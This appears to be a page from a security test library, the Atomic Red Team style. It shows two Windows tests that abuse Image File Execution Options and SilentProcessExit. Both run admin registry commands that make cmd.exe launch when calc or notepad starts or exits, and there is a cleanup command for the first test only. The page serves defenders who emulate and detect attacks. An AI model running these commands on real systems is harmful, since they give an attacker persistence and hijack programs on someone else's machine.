 <br/>

## Atomic Test #1 - IFEO Add Debugger

Leverage Global Flags Settings

**Supported Platforms:** Windows

**auto_generated_guid:** fdda2626-5234-4c90-b163-60849a24c0b8

#### Inputs:

| Name           | Description         | Type | Default Value                           |
| -------------- | ------------------- | ---- | --------------------------------------- |
| target_binary  | Binary To Attach To | path | calc.exe                                |
| payload_binary | Binary To Execute   | path | C:&#92;Windows&#92;System32&#92;cmd.exe |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /d "#{payload_binary}"
```

#### Cleanup Commands:

```cmd
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /f >nul 2>&1
```

<br/>
<br/>

## Atomic Test #2 - IFEO Global Flags

Leverage Global Flags Settings

**Supported Platforms:** Windows

**auto_generated_guid:** 46b1f278-c8ee-4aa5-acce-65e77b11f3c1

#### Inputs:

| Name           | Description         | Type | Default Value                           |
| -------------- | ------------------- | ---- | --------------------------------------- |
| target_binary  | Binary To Attach To | path | notepad.exe                             |
| payload_binary | Binary To Execute   | path | C:&#92;Windows&#92;System32&#92;cmd.exe |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /t REG_DWORD /d 512
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /t REG_DWORD /d 1
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /d "#{payload_binary}"
```

